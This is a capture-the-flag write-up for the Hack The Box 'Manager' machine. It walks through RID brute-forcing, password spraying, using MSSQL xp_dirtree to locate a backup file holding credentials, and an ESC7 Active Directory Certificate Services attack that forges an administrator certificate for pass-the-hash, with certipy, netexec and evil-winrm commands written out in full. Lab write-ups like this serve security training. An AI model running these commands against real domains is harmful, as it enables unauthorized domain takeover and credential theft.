This box is rated medium difficulty on HTB. It involves us enumerating domain users by brute-forcing RIDs and password spraying to get valid credentials for an operator. That user has access to MSSQL which can be used to find a backup ZIP file on the web server. Dumping an old config file rewards us with user credentials to grab a shell over WinRM. Some enumeration shows that this user has the Manage Certificate Authority (CA) access right, which can be abused to perform an ESC7 attack to get the Administrator's NTLM hash. 

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns the standard AD ports.

```
$ sudo nmap -sCV 10.129.5.12 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-11 18:22 CDT
Nmap scan report for 10.129.5.12
Host is up (0.058s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Manager
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-12 06:22:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
|_ssl-date: 2026-03-12T06:23:27+00:00; +6h59m54s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
|_ssl-date: 2026-03-12T06:23:27+00:00; +6h59m54s from scanner time.
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.5.12:1433: 
|     Target_Name: MANAGER
|     NetBIOS_Domain_Name: MANAGER
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: manager.htb
|     DNS_Computer_Name: dc01.manager.htb
|     DNS_Tree_Name: manager.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.5.12:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2026-03-12T06:23:27+00:00; +6h59m54s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-03-12T06:20:53
|_Not valid after:  2056-03-12T06:20:53
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
|_ssl-date: 2026-03-12T06:23:27+00:00; +6h59m54s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
|_ssl-date: 2026-03-12T06:23:27+00:00; +6h59m54s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m53s, deviation: 0s, median: 6h59m53s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-03-12T06:22:49
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.14 seconds
```

Looks like a Windows machine with Active Directory components installed on it. LDAP is leaking the domain name of `manager.htb` which I'll add to my `/etc/hosts` file. I fire up Ffuf to search for subdirectories and virtual hosts in the background before enumerating SMB. There are quite a lot of ports open, so I'll focus mainly on HTTP, SMB, and MSSQL as they are most likely to hold sensitive information or provide access to the system.

## SMB Enumeration
Using Netexec shows that Guest authentication is enabled and that there are only standard shares available. I also use this tool to brute-force RIDs to get a list of groups and users on the domain, which I use an `awk` command to extract valid usernames for later use.

```
--Saving RID brute force output to file--
$ nxc smb manager.htb -u 'Guest' -p '' --rid-brute > ridbrute.txt

--Extracting usernames from file--
$ cat ridbrute.txt | awk -F'\\' '{print $2}' | awk '{print $1}' > validusers.txt
```



At this point, I would usually test if these accounts have Kerberos pre-authentication disabled and attempt to AS-REP Roast them, however I'd like to enumerate all other services beforehand.

## Creds via Password Spraying
As we can see RPC and MSSQL both do not allow for guest/null authentication. Attempting to make anonymous binds to LDAP also fails and my scans don't find any interesting directories or Vhosts. For that reason, I'll zero in on SMB and Kerberos to try gaining valid credentials on the domain.

```
$ rpcclient manager.htb -U ''

$ nxc mssql manager.htb -u 'Guest' -p ''

$ ldapsearch -H ldap://dc01.manager.htb -x -b "DC=manager,DC=htb"
```



As we already have a list of users, I test to see if any accounts have usernames reused as their password. This shows that this is the case for the 'operator' account, don't mind the SQLServer machine account since it authenticates as Guest.

```
$ nxc smb manager.htb -u validusers.txt -p validusers.txt --continue-on-success --no-brute
```



## MSSQL Enumeration
Checking if this is also works for MSSQL shows that we're allowed to make queries via tools like Impacket's [mssqlclient.py](https://github.com/Twi1ight/impacket/blob/master/examples/mssqlclient.py) script. Displaying the database names reveals four, however these are all the defaults. 

```
$ impacket-mssqlclient -windows-auth manager.htb/operator:operator@manager.htb

SQL (MANAGER\Operator  guest@master)> select name from master..sysdatabases;
```



Dumping these will return nothing, but that doesn't mean that this service is useless. MSSQL has the `xp_cmdshell` feature, which is primarily used by administrators for tasks like file management, interacting with the OS, or running system scripts. If enabled, we can execute commands on behalf of 'operator' and get a reverse shell.

```
SQL (MANAGER\Operator  guest@master)> xp_cmdshell whoami

SQL (MANAGER\Operator  guest@master)> enable_xp_cmdshell
```



### Finding Zip File with xp_dirtree
Unfortunately, we don't have access to use or enable it and some research shows that it's disabled by default due to critical security reasons. A bit more digging on MSSQL functionality shows another feature named `xp_dirtree` that allows users to list directories directly from the CLI. It's commonly used as a verify file existence on the system, however we can use it to find hidden files.

```
SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\Users\raven

SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\inetpub\wwwroot
```



Checking the `C:\Users` directory shows only one other user on the box named Raven, but we're denied access with current privileges. Another good place to check is the servers webroot directory which will show all files that we could potentially get.

### Dumping Old Config
This reveals an interesting website backup zip. We'll be able to grab this with `wget` or `cURL` in order to parse the files for any credentials or other sensitive information.

```
$ wget http://manager.htb/website-backup-27-07-23-old.zip

$ mkdir zipfiles && cd zipfiles

$ 7z x ../website-backup-27-07-23-old.zip
```



Listing all files shows an old XML configuration file for LDAP that was hidden; Dumping the contents gives us user credentials for Raven.



I was hoping that this password was still valid since we found it in an old backup file, but authenticating over SMB succeeds. Turns out that they are in the Remote Management group, meaning we can WinRM onto the box to grab a shell.



At this point we can grab the user flag under their Desktop folder and start internal enumeration to escalate privileges towards Administrator.

## Privilege Escalation
Listing our account information with `whoami /all` shows that we are in the Certificate Service DCOM Access group, which reveals that Active Directory Certificate Services (AD CS) is installed on this box too.



I'll  use [Certipy-AD](https://github.com/ly4k/Certipy) to test if Raven has the capability to issue certificates or manage the CA.

```
$ certipy-ad find -target dc01.manager.htb -u 'raven' -p '[REDACTED]' -vulnerable -stdout
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: All nameservers failed to answer the query dc01.manager.htb. IN A: Server Do53:192.168.172.2@53 answered SERVFAIL
[!] Use -debug to print a stacktrace
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'manager-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'manager-DC01-CA'
[*] Checking web enrollment for CA 'manager-DC01-CA' @ 'dc01.manager.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
    [+] User Enrollable Principals      : MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
    [+] User ACL Principals             : MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : User has dangerous permissions.
Certificate Templates                   : [!] Could not find any certificate templates
```

Towards the bottom, the tool lists any potential vulnerabilities that can be utilized in our goal to escalate privileges. In this case, it shows that Raven has dangerous permissions and we can perform an ESC7 attack.

## ESC7 Attack
An AD CS ESC7 attack is an escalation path that occurs when a user has dangerous management permissions over the Certification Authority (CA) in Active Directory Certificate Services (AD CS). Specifically, the user has rights such as Manage CA or Manage Certificates, which allow them to modify CA settings and issue certificates. This can lead to a full domain compromise, as an attacker can use it to issue authentication certificates for any domain user, including Domain Admins.

To exploit this, we must verify that we have Manage CA permissions, Enable the SubCA template, request a cert using the SubCA template (which should fail), issue the failed cert, retrieve it with an administrator UPN, and authenticate with the PFX. I'll refer to this [Red & Blue Team Security article](https://www.rbtsec.com/blog/active-directory-certificate-attack-esc7/) throughout this process.

```
[Low Privileged Domain User]
            ↓ - Has "Manage CA" permission

[Certification Authority (AD CS)]
            ↓ - Enable / modify certificate template

[Issue Certificate for Admin]
            ↓ - PKINIT Authentication

[Domain Admin Access]            
            ↓
[Full Domain Compromise]
```

It's easier to put into practice then explain it, so let's dive in. First we must grant ourselves the "Manage Certificates" access right, doing so by adding our account as an officer. We did that in order to enable the SubCA certificate template, which is used to issue certificates for subordinate/issuing CAs. Once that's done, we're ready to move onto the request exploitation process.

```
$ certipy-ad ca -ca manager-DC01-CA -dc-ip 10.129.5.12 -u 'raven' -p '[REDACTED]' -add-officer raven

$ certipy-ad ca -ca manager-DC01-CA -dc-ip 10.129.5.12 -u 'raven' -p '[REDACTED]' -enable-template SubCA
```



Next, we want to request a certificate with the SubCA template, specifying the User Principle Name (UPN) to be the domain's administrator. This should fail, however we need to save the private key to our local machine for use in later requests.

```
$ certipy-ad req -ca manager-DC01-CA -dc-ip 10.129.5.12 \
-u 'raven' -p '[REDACTED]' -template SubCA \
-target dc01.manager.htb -upn administrator@manager.htb 
```



Then, we'll issue the previously failed certificate request with the `-issue-request` option. This is done in order for us to impersonate the Administrator upon retrieval which allows us to authenticate and grab the their NTLM hash.

```
$ certipy-ad ca -ca manager-DC01-CA -dc-ip 10.129.5.12 -u 'raven' -p '[REDACTED]' -issue-request [REQUEST_ID]
```



Now we'll run a request command along with the `-retrieve` option to grab that issued certificate, making sure to specify a UPN matching the Domain Administrator in order to impersonate them. This will save both the certificate and private key to a `.pfx` file which can be used for authentication, letting us get the NTLM as well.

```
$ certipy-ad req -ca manager-DC01-CA -dc-ip 10.129.5.12 \
-u 'raven' -p '[REDACTED]' -template SubCA -target dc01.manager.htb \
-upn administrator@manager.htb -retrieve 20
```



Before using that `.pfx` file, we need to fix the Clock Skew error since this is Kerberos related. If you can get away with just using an ntpdate command, then go for it, but my VMWare machine overrides the clock settings, so I have to manually disabled them first.

```
#Stopping my machine's timsyncd processes
$ sudo systemctl stop systemd-timesyncd
$ sudo systemctl disable systemd-timesyncd
$ sudo systemctl stop chronyd 2>/dev/null
$ sudo systemctl disable chronyd 2>/dev/null

#Set Clock skew to match the DC's
$ sudo rdate -n dc01.manager.htb
```

After our clock is synced to the DC, we can authenticate by providing the IP and PFX to request a TGT. In turn, this resolves the administrator's NTLM hash which can be used in a Pass-The-Hash attack over WinRM or SMB alike.

```
$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.5.12
```



After spawning a shell with Evil-WinRM allows us to grab the final flag under the Administrator's Desktop folder to complete this challenge.

```
$ evil-winrm -i dc01.manager.htb -u administrator -H '[REDACTED]'
```



That's all y'all, I enjoyed this box as I don't typically find MSSQL to be public-facing and have little experience exploiting it. I hope this was helpful to anyone following along or stuck and happy hacking!
